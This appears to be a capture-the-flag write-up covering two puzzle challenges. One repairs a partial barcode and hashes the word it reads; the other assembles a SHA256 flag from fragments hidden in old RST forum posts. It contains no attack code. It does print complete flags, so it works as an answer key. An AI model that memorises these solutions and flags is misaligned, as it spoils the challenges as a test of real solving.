Breaking news: after the last sightings of bears in Poiana Brasov, a new animal has been seen by locals, an animal half zebra, half horse. Attached, there is a sketch of the animal. Can you discover which animal is it actually?
I was given an image that resembled a barcode, but it was not complete and not readable by any scanner application. The initial image looked like this:
I used Paint from Windows to extend the black lines and obtain a readble barcode, which can be seen below:
The barcode reads "oaie" (translation - sheep), which being hashed with SHA256 and tagged with RST{} around, gives the final flag.
Flag: RST{c25ef393f5496a6078b739232d038032eddf0d8aeeef2a5d0b73c2f781a13e57}
20. Poza (200p)
- Category: Misc
- Author: Dragos
Am gasit poza atasata de la un utilizator de pe forum. Ce poate sa insemne?
I found the attached image on one of the forum users. What could it mean?
This challenge has the forum logo attached and mentions a forum user. Combining this information with the fact that the SMS-uri challenge has hints for other challenges, I looked for the user 453-alex (https://rstforums.com/forum/profile/453-alex/), as suggested there. He only had two topics in which he was active, so I looked through those.
In the first topic (https://rstforums.com/forum/topic/961-cum-securizezi-un-rootprins-la-php/?tab=comments#comment-6974), there is a strange piece of PHP code resembling to a part of hash. However, its length was not right - only 30 characters.
defined( '_VALID_MOS' ) or die( '5aa3b284dbb9a6c970f5d4f405d19c' )Next, I went over to the second topic (https://rstforums.com/forum/topic/862-cum-gasesc-vulnerabilitati/?tab=comments#comment-6415) and looked again for hashes. Luckily, one of the comments seemed broken, displaying the following piece of HTML code:
<div class='quotetop'>QUOTE("86ac7f0d41884bf3119acede4ec84756bb")</div>This time, the length of the string was 34, which added to the 30 characters identified before resulted in a 64 characters long hash, which is the length for a SHA256. I added the RST{} tag around the hash and got the final flag.
Flag: RST{5aa3b284dbb9a6c970f5d4f405d19c86ac7f0d41884bf3119acede4ec84756bb}